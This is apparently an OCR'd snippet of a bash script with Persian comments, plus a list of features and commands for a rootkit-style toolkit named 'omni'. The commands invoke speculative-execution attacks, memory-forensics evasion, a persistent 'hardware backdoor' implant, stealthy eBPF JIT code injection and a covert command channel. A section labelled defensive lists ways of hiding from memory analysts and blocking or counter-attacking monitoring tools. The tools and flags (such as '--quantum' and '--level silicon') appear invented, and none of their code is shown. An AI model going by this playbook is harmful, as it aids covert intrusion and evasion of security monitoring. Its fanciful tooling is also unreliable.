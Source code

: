 ```bash
#!/bin/bash
# سیستم استقرار هسته‌ای پیشرفته

# فعال‌سازی حملات اجرای حدسی
python3 scripts/speculative_execution_tool.py activate --level advanced

# پیکربندی فرار از تحلیل حافظه
./scripts/memory_forensic_evasion.sh configure --aggressive

# کاشت درب پشتی سخت‌افزاری
sudo ./scripts/hardware_backdoor_ctl implant --persistent

# راه‌اندازی سیستم هوکینگ eBPF JIT
./scripts/ebpf_jit_hook_loader load --stealth

# برقراری کانال ارتباطی امن
python3 scripts/secure_comms.py establish-channel --quantum

# فعال‌سازی حالت نهایی
echo "activate_stealth_mode" > /proc/omni/control
```

### تکنیک‌های دفاعی پیشرفته:

1. **مخفی‌سازی چندلایه**:
   - ترکیب تکنیک‌های کاربردی و هسته‌ای
   - استفاده همزمان از استتار حافظه و سخت‌افزار
   - تغییر دینامیک امضاها

2. **دفاع فعال**:
   - تشخیص و خنثی‌سازی تحلیلگران حافظه
   - شناسایی و مسدود کردن ابزارهای نظارتی
   - حمله متقابل به سیستم‌های مانیتورینگ

3. **انعطاف‌پذیری عملیاتی**:
   - سازگاری با نسخه‌های مختلف هسته
   - پشتیبانی از معماری‌های x86_64 و ARM64
   - عملکرد در محیط‌های مجازی و فیزیکی

4. **مکانیزم‌های خودحفاظتی**:
   - رمزنگاری کد در حافظه
   - اعتبارسنجی یکپارچگی در زمان اجرا
   - سیستم‌های تشخیص نفوذ خودکار

### دستورات مدیریت عملیاتی:

```bash
# فعال‌سازی حملات اجرای حدسی
omni-speculative activate --target memory --range 0xffffffff81000000-0xffffffff81a00000

# پنهان‌سازی محدوده حافظه
omni-memory hide --start 0xffffdead0000 --size 2M

# فعال‌سازی درب پشتی سخت‌افزاری
omni-hardware backdoor enable --level silicon

# تزریق کد از طریق eBPF JIT
omni-ebpf inject --payload stealth.bin --signature valid_prog.elf

# ارسال دستور از طریق کانال امن
omni-comms send "execute payload --stealth" --quantum-encrypted
```
